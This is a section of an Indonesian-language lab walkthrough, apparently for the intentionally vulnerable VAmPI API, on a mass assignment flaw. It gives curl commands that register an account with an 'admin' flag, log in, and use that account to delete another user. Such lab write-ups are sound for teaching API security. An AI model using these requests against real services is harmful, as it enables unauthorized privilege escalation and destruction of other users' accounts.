 # Mass Assignment
Framework terkadang memungkinkan developer untuk mengikat parameter request HTTP ke dalam variabel atau objek secara otomatis untuk membuat penggunaan framework tersebut mudah digunakan. Hal ini terkadang dapat menimbulkan kerugian. Misalnya, developer dapat membiarkan beberapa fungsi privat terbuka untuk umum seperti siapa pun dapat membuat akun admin. Jika fungsi semacam ini ada maka penyerang dapat memanfaatkannya. Celah keamanan ini berada di endpoint `/users/v1/register`. Melalui endpoint tersebut kita bisa mendaftarkan diri sebagai admin hanya dengan menambahkan parameter `admin=true`

```sh
curl http://IP_Server:5000/users/v1/register -d '{"email":"test@test.com","username":"test","password":"test","admin":"true"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%202.JPG)

- Sekarang kita coba registerasi sebagai user biasa dengan nama `test2`
```sh
curl http://IP_Server:5000/users/v1/register -d '{"email":"test2@test.com","username":"test2","password":"test2"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%204.JPG)

- Sekarang kita coba login sebagai user `test` yang sudah didaftarkan sebagai admin sebelumnya
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%206.JPG)

- Setelah itu kita coba hapus akun user `test2` dengan menggunakan akun user `test` menggunakan endpoint `/users/v1/{username}`
```sh
curl -X DELETE http://192.168.100.12:5000/users/v1/test2 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%206.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%207.JPG)

- User `test` ternyata bisa menggunakan endpoint `/users/v1/{username}` untuk menghapus akun user, dimana endpoint `/users/v1/{username}` sebenarnya hanya bisa digunakan oleh admin saja. Tapi dengan menambahkan parameter `admin=true` saat registerasi, akun tersebut akan otomatis terdaftar sebagai admin